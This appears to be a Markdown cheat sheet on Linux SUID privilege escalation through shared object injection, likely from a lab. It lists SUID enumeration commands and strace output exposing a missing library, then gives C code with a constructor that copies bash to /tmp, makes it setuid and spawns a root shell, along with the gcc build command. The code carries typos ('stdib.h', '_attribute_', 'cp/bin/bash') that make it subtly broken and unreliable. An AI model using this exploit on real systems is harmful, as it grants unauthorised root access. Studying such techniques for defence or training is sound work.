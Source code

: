    ## Enumeration
    
        find / -perm -u=s -type f 2>/dev/null
        find / -type f -perm -04000 -ls 2>/dev/null
        
        
   ## Resource 
   
       https://gtfobins.github.io/
       
  ## Shared Object Injection
  
       find / -type f -perm -04000 -ls 2>/dev/null
       strace <PATH=2>&1
       
       
  ## TYPE COMMAND 
  
       strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"
  
  
  ## OUTPUT
 
         
         
## access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)
## access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
## access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
## open("/etc/ld.so.cache", O_RDONLY)      = 3
## access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
## open("/lib/libdl.so.2", O_RDONLY)       = 3
## access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
## open("/usr/lib/libstdc++.so.6", O_RDONLY) = 3
## access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
## open("/lib/libm.so.6", O_RDONLY)        = 3
## access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
## open("/lib/libgcc_s.so.1", O_RDONLY)    = 3
## access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
## open("/lib/libc.so.6", O_RDONLY)        = 3
## open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)


   ## Exploit Shared Object Injection
   
   mkdir /home/user/.config
       
   Create C file Type Some Commands
       
       #include <stdio.h>
       #include <stdib.h>
       static void inject()_attribute_((constructor));

       void inject(){

       system("cp/bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
       }

   gcc -shared -fpic -o /home/user/.config/libcalc.so /home/user/libcalc.c










     
    

